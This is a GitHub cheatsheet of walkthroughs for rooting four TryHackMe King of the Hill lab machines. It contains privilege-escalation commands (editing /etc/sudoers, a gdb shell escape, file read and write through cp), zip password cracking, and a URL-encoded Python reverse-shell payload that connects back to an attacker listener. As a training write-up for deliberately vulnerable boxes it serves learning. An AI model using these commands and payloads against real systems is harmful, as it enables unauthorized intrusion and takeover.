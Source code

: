 # This is a work in progress, Many more machine cheatsheets will be updated very soon.
### Active Contributors : 
[Mr.Holmes](https://github.com/holmes-py) <br />
[Cryptonic007](https://github.com/mohitkhemchandani)
 
#### I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win. Target is to win while being inside the rules. This is not an exam, there are no wrong answers. As the saying goes, If it works, don't touch it.
This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.


# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    


#  Machine name: SHREK

    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.*

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"

    On listener, you can see that we have a shell now.<br />
   
 4. After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the `cp` vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.<br />
 
    `LFILE=/root/king.txt`<br />
    `echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"`<br />
#### YOU ARE KING. NOW DEFEND YOUR TITILE.<br />
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)<br />
    `LFILE=file_to_read`<br />
    `cp "$LFILE" /dev/stdout`<br />

#  Machine name: FORTUNE

Now this is new machine, Released very recently, <br /> 
And made it hard for me to post direct commands, Why?<br /> 
Heres why, In this machine, there's a thing called autogen script, that regenrates everything at every reset. That means direct credentials doesn't work anymore. So you have to follow the instructions and do everything manually.<br /> 
Let's Hack:<br /> 


1. Initial nmap scans revealed that theres a netcat port open at 3333. <br /> 
    ![image](https://user-images.githubusercontent.com/54495695/81497074-b9252800-92d9-11ea-9e85-e727773fc41c.png)
##### UPDATE, you can skip next 2 steps and directly use the command in Shortcut Note.
2. When we connect to it, It gives out a weird base64 hash, After fiddling around, I found that it is base data of a zip file, so we use this [Site](https://base64.guru/converter/decode/file).<br /> 
    Copy the base64 hash to this site, and it will generate a file named application.zip.<br /> 
    
3. Now when we try to open the file, The file needs a password, Just crack this file using fcrackzip and wordlist rockyou.txt.<br /> 
    `fcrackzip -v -u -D -p ~/wordlists/rockyou.txt application.zip`<br /> 
   Once you have the password, unzip it.<br /> 
   `unzip application.zip`<br /> 
  ##### Shortcut Note:  MAKE SURE TO DO THE FOLLOWING EDITS:
  $IP = IP of KoTH box
  $location = address of your rockyou wordlist
  `nc $IP 3333  | base64 -d  > test.zip; unzip -P  (fcrackzip -v -u -D -p $location/rockyou.txt test.zip | grep "pw" |awk '{print $5}') test.zip; cat creds.txt`
  
   You get a file named creds.txt, Inside it we have the login details of user named `fortuna`. Lets GO.<br /> 
4. Using the creds, <br /> 
    `ssh fortuna@<BOX IP>`<br /> 
5. Now that we have the shell, We can work on Privilage escalation.<br /> 
    After linpeas and basic test, I found that:<br /> 
        5.1 We as fortuna are in sudoers list.<br /> 
        5.2 And we also have `pico` in the `sudo -l` list.<br /> 
        
6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.<br /> 
7. Using this command:<br /> 
    `sudo pico /etc/sudoers`<br /> 
   Replace `pico` in sudoers file with `ALL`.<br /> 
8. Now you can just do, `sudo su` and you are root.<br /> 

#### You are ROOT, now defend your title.
   
   
